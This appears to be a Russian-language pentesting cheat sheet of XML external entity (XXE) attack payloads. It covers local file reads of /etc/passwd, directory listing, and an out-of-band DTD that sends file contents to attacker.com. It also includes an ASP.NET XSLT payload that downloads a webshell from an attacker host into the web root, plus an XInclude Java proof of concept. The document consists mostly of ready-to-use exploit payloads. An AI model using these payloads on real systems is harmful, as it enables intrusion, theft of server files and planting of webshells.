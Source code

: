 # Examples XXE

## Basic

1 Можем использовать объявленную сущность в теле XML

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com/xxe"> ]>
<root>
    <data>&xxe;</data>
</root>
```

2 Можем использовать объявленную сущность как определение следующей сущности в Doctype.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://evil.com/xxe"> &xxe; ]>
<root></root>
```

## Include local file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```

Некоторые парсеры позволяют листить директории:&#x20;

```markup
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///Users/"> ]>
```

## http request

```markup
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://example.com/test"> %ext;
]>
<r></r>
```

```markup
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % payload SYSTEM "file:///etc/">
<!ENTITY % dtd SYSTEM "ftp://example.com/poc2.txt">
%dtd;
%release;
]><foo>ehlo</foo>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test SYSTEM "https://yandexsjknvdkjsdnvkjnskjvnskjd.ru/xxe">
```

## OOB+XXE

Эта техника (OOB - Out-of-Band) используется для отправки результата чтения локального файла

У себя (на attacker.com) раполагаем evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

Отправляем уязвимому веб-приложению

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

TODO: переделать в oob на ftp сервер

## XXE -> RCE

на php просто, есть примеры в инете

на ASP.Net такой пэйлоад видел в статье — [https://blog.zsec.uk/out-of-band-xxe-2/amp/](https://blog.zsec.uk/out-of-band-xxe-2/amp/), на проекте не взлетел:

```markup
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://VICTIM.COM/pwned">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://ATTACKERHOST/webshell.aspx",
                       @"c:\inetpub\wwwroot\zephrShell.aspx");

    return "Shell Uploaded Successfully @ /zephrShell.aspx";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## XInclude

```markup
<?xml version='1.0' encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <p>Текст моего документа</p>
  <xi:include text="parse" href="copyright.xml"/>
</document>
```

Java PoC

```java
package com.company;

import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;

import org.xml.sax.Attributes;
import org.xml.sax.SAXException;
import org.xml.sax.helpers.DefaultHandler;

public class Main {

    public static void test() {
        final String fileName = "test.xml";

        /* test.xml
        <Document xmlns="urn:iso:std:iso:20022:tech:xsd:pain.001.001.03" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xi="http://www.w3.org/2001/XInclude">
            <PHONEBOOK>
                <PERSON>
                    <NAME>
                        <MAIN_NAME>Noname person</MAIN_NAME>Joe Wang
                    </NAME>
                    <Nm xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="https://example.com" /></Nm>
                </PERSON>
            </PHONEBOOK>
        </Document>
        */

        try {
            SAXParserFactory factory = SAXParserFactory.newInstance();
            factory.setXIncludeAware(true);  // без этого не будет работать !!!
            factory.setNamespaceAware(true); // без этого не будет работать !!!
            factory.setFeature("http://apache.org/xml/features/xinclude", true); // без этого не будет работать !!!
            SAXParser saxParser = factory.newSAXParser();

            DefaultHandler handler = new DefaultHandler() {
                boolean name = false;
                // Метод вызывается когда SAXParser "натыкается" на начало тэга
                @Override
                public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
                    // Если тэг имеет имя NAME, то мы этот момент отмечаем - начался тэг NAME
                    if (qName.equalsIgnoreCase("Nm")) {
                        name = true;
                    }
                }

                // Метод вызывается когда SAXParser считывает текст между тэгами
                @Override
                public void characters(char ch[], int start, int length) throws SAXException {
                    // Если перед этим мы отметили, что имя тэга NAME - значит нам надо текст использовать.
                    if (name) {
                        System.out.println("Name: " + new String(ch, start, length));
                        name = false;
                    }
                }
            };

            // Стартуем разбор методом parse, которому передаем наследника от DefaultHandler, который будет вызываться в нужные моменты
            saxParser.parse(fileName, handler);
            System.out.println("Test");
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
	// write your code here
        test();
        System.out.println("Test");
    }
}

```
